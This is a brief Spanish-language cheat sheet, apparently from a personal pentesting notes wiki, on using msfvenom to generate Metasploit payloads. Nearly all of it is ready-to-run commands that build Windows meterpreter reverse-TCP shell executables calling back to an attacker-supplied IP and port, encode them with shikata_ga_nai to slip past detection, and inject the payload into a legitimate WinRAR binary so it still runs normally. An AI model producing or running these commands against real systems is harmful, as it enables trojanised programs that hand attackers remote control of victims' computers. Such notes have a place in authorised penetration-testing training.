 # ¿Qué es?

Esa una utilidad que nos permite generar payloads para [[metasploit]].
# Uso
## Generar reverse shell

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

## Encoder

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe > shell.exe
```

## Inject into executable

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe -x ~/winrar -k > shell.exe
```

